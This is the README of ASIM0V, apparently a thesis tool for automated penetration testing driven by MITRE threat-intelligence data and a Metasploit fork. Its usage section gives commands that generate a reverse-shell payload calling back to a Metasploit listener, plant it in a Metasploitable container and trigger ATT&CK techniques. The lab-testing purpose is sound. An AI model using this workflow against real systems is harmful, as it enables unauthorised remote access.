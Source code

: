 # asim0v
Intro
This contains very limited information
Please refer to my thesis Automated Penetration Testing driven by  Cyber Threat Intelligence for which you can find below an excerpt from the abstract

"In this dissertation, we start giving a brief overview of basic security concepts, to then 
focus on penetration testing. We explore different security related sources of information 
provided by MITRE organization and how they can be aggregated to create a unique 
reference for both humans and machines, using a standard format for reporting Cyber 
Threat Intelligence using the STIX expression language. And starting from there we define 
our own workflow, taking leverage of the famous security tool Metasploit, in particular 
using its fork from Praetorian company. 
All our effort will be delivered as a new tool for Automated Security Intelligence 
Management for Zero Vulnerability, named ASIM0V, hopefully a starting point for the 
next students, that can focus in testing different targets, and also consolidating and 
expanding its features."


The repo also contains CVE, CWE, CAPEC and ATT&CK data. 
CVE need to be unzipped using unzip_first_cve_json.sh file 


Usage
After obtaining a list of CVE e.g. using vuln script from msfconsole
you can check if any attack-pattern available for that particular vulnerability

for CVE in `cat cvelist_metasploitable.txt`; do echo $CVE; curl localhost:9090/search?cve=$CVE | python -m json.tool; done > metasploitable_explorer_output.txt

to generate the malicious payload for the reverse shell
curl localhost:9191/payload -d "targetPlatform=linux/x86&metasploitAddress=metasploit&metasploitPort=4444" > payload

the output will be base64 encoded, must be decoded, copied to target (e.g. metasploitable) container and executed so that it will connect to the listener on metasploit 
base64 -d payload > decodedpayload
docker cp ./decodedpayload <containerId>:/


to retrieve which attack can be executed
curl localhost:9191/attacks?cve=CVE-ID
optionally you can append &targetPlatform=Windows or Linux or macOS

Once you have an attack, if implemented by purpleteam-attack-automation metasploit's fork then you can try to execute it

reverseShellPort is optional parameter in case you need to override the property file value
curl localhost:9191/execute -d "attack=t1016&targetPlatform=linux"
